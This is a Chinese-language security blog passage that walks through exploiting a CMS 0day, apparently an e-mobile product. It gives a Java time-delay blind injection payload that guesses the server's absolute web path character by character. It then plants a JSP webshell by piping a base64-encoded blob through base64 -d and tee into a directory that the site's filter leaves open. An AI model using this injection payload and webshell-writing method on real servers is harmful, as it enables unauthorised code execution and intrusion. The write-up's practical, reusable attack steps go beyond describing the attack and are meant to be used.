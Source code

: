 接下来要用延时注入的方法，把大约50长度的网站绝对路径一个字符一个字符地猜出来，这个时间非常慢，经过思考，可以通过以下方法大大减少延迟注入猜解的次数：

首先如下图所示，对于linux系统，网站存放的根目录，无非就是 **/root** 、 **/home** 、   **/usr**   、
**/opt** 等目录：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230311202726.png)

  

接下来，通过延时注入判断网站绝对路径的第2个字符到底是h 还是o 还是r 还是 u等等（第1个字符就不用判断了，肯定是”/”）。

最终构造出Java语句如下：（ **记得当时我换了好几种java代码写法，这个是在当时环境中能用的** ）

 **java.io.File file = new
java.io.File("/tmp/login_btn.txt");java.io.FileInputStream fis;fis = new
java.io.FileInputStream(file);java.io.InputStreamReader isr = new
java.io.InputStreamReader(fis);java.io.BufferedReader br = new
java.io.BufferedReader(isr);char ch =
br.readLine().charAt(1);if(ch=='u'){java.lang.Thread.sleep(10000);}**

  

经过测试发现，当 **ch==’u’** 的时候，网站返回会延迟10秒，所以很容易猜解到绝对路径的开头的几个字母是/usr/

接下来判断/usr/后面的第一个字符，这个就得一个字符一个字符地猜解了，最后手气不错，猜到是e，于是得到绝对路径是/usr/e

动动脑筋，很容易推测绝对路径有可能是/usr/emobile/，那么如何证明是不是呢？只要判断第11个字符是不是e就可以了，经过判断是e。如下图所示：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230311202727.png)

接下来我跟同事要了一份该CMS系统的war包，参考着把剩余的路径拼接上：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230311202728.png)

  

得到最终的绝对路径：

 **/usr/emobile/webapps/ROOT/images/login_btn_bg.png**

  

  *  **写webshell过程**

接下来就是写shell过程了。该CMS系统的过滤器使传在/webapps/ROOT/images/目录下的shell均无法在未登录状态下访问，结合源码经过一系列测试，发现可以将webshell传在
**/images/manager/** 目录下。

然后再通过echo命令写shell即可，由于jsp的webshell的各种特殊字符的干扰，直接用echo命令写shell需要将这些特殊字符转义，于是先把webshell进行base64编码，然后再通过linux命令解码写shell，具体代码如下：

 **echo PGpzcDpyb290IHc2lvbj0iMS4yIj48a  == | base64 -d | tee
/usr/***省略**/temp1231.jspx**

如下所示，成功获取一个webshell。![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230311202729.png)  

##

##  **  Part3 总结 **

 **1.**   0day是别人挖的，但是如何在后期利用中去发挥0day价值，还得是靠自己。 **2.**
通过这个案例可以知道，常规的SQL注入漏洞的后期利用、java代码的基础等等，这都是基本功，还是要用心学习的。  
![]() **公众号专注于网络安全技术分享，包括APT事件分析、红队攻防、蓝队分析、渗透测试、代码审计等，每周一篇，99%原创，敬请关注。**
**Contact me: 0day123abc#gmail.com(replace # with @)**  

